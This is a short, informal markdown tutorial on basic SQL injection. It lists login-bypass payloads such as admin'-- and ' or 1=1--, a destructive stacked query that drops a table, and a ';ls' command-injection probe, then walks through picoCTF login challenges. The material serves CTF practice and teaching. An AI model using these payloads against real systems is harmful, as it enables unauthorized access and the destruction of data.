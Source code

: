 ```sql
SELECT * FROM products WHERE id = 10; DROP members--
```

You can try `;ls` that may list out files(if such a case occurs), etc.
Their are more examples and patterns to use, but look it up on your own.

## List of SQL attacks (basic) you can use

```sql
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
```
```sql 
'; #  
') or '1'='1--
') or ('1'='1--
```


### Example I made

Let's a practical example in the real MySQL database i made.
We will see a few SQLi to get a basic picture of what actually happens.

### Example 1

Let's see an example of picoCTF, from the repo. I will explain this example. Let's see what's going on.

# First move
The inspect element doesn't give us any lead. So we go to admin login. Now we try various types of SQLi to see which one works.

# SQLi
The general Query looks like
```sql
select * where username='..' and password='..' 
```

We give some shots to password and see nothing works. If we try username, then we see 
`admin'--` works. And we are done.

### Example 2

Let's see an example of picoCTF, from the repo. If we try some basic SQLi's, same SQLi works.
But the point of this example is, say you don't understand how to use some SQLi, we can use BarpSuite. 
